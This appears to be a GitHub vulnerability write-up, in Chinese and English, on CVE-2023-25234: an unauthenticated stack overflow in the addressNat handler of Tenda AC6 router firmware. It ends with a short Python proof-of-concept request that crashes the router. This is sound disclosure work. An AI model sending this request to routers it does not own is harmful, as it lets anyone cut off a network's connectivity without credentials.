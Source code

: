 # CVE-2023-25234_tenda_AC6_stack_overflow

## 漏洞描述

### 编号

无  
CVE-2023-25234 记录了 Tenda AC500 V2.0.1.9(1307)存在此问题，Tenda AC6 V15.03.05.19(latest) 也存在该问题，但暂时无CVE编号  
>CVE-2023-25234 Tenda AC500 V2.0.1.9(1307) is vulnerable to Buffer Overflow in function fromAddressNat via parameters entrys and mitInterface.  

### 设备信息&固件版本号

**Tenda AC6:**  
v15.03.05.09_multi ~ V15.03.05.19(latest)  
goahead framework  

### 漏洞类型

DoS  

### 危害

可访问路由器的攻击者无需凭证即可执行远程拒绝服务攻击  

## 复现流程

### 复现设备&固件

同CVE-2023-26976_tenda_AC6_stack_overflow  

### 固件下载&仿真

同CVE-2023-26976_tenda_AC6_stack_overflow  

### 漏洞分析

漏洞点在httpd服务中的fromAddressNat()  
路由/goform/addressNat  
将用户输入的`entrys/mitInterface`参数传入`v9/v8`，但使用`sprintf(s, "%s;%s", v9, v8)`时没有长度限制，又`s`为`char s[512]`，即在`sprintf()`时存在溢出  
![path](CVE-2023-25234_Tenda_AC6_stack_overflow.assets/2023-04-10-18-56-28.png)  
![path](CVE-2023-25234_Tenda_AC6_stack_overflow.assets/2023-04-10-18-57-06.png)  
>There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.  
In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.  
![fromAddressNat](CVE-2023-25234_Tenda_AC6_stack_overflow.assets/2023-04-10-18-07-57.png)  
So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.  

### 漏洞利用

get请求触发溢出  

```python
import requests

IP = "192.168.2.199" # 路由器ip
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```

![Dos](CVE-2023-25234_Tenda_AC6_stack_overflow.assets/2023-04-10-18-11-00.png)  
